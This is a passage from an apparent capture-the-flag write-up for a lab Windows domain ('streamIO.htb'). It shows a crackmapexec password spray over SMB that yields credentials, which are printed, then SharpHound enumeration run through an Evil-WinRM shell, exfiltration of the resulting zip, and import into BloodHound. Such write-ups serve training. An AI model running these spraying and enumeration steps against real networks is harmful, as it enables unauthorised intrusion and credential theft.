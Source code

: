 ```bash
$ cme smb streamio.htb -u users.txt -p passwords.txt --continue-on-success
...[SNIP]...
SMB streamIO.htb 445 DC [+] streamIO.htb\nikk37:get_dem_girls2@yahoo.com 
...[SNIP]...
SMB streamIO.htb 445 DC [+] streamIO.htb\jdgodd:JDg0dd1s@d0p3cr3@t0r
...[SNIP]...
```
Very important to use `--continue-on-success` flag, otherwise crackmapexec will stop when he finds a valid login.

Cool! We got one more credentials, for `jdgodd` user:
```
Username: jdgodd
Password: JDg0dd1s@d0p3cr3@t0r
```

### Bloodhound
We still don't know the path to `martin` or `administrator`. Lets run Bloodhound to map the AD for us and show some graphs!
Run [SharpHound](https://github.com/BloodHoundAD/SharpHound) in the target to extract the data:
```bash
*Evil-WinRM* PS C:\Users\nikk37> .\SharpHound.exe -c all

2022-06-06T03:46:48.9960341-07:00|INFORMATION|Status: 97 objects finished (+97 2.204545)/s -- Using 40 MB RAM
2022-06-06T03:46:48.9960341-07:00|INFORMATION|Enumeration finished in 00:00:44.2927695
2022-06-06T03:46:49.1835426-07:00|INFORMATION|SharpHound Enumeration Completed at 3:46 AM on 6/6/2022! Happy Graphing!
```

Download the loot to our machine:
```
*Evil-WinRM* PS C:\Users\nikk37> download C:\Users\nikk37\20220606034648_BloodHound.zip bloodhound-loot.zip
```

Start neo4j server:
```bash
$ sudo neo4j console
```

Start Bloodhound, login to neo4j and import the loot (simply drag-and-drop the .zip)!
```
$ ./BloodHound
```

Mark the user we owned: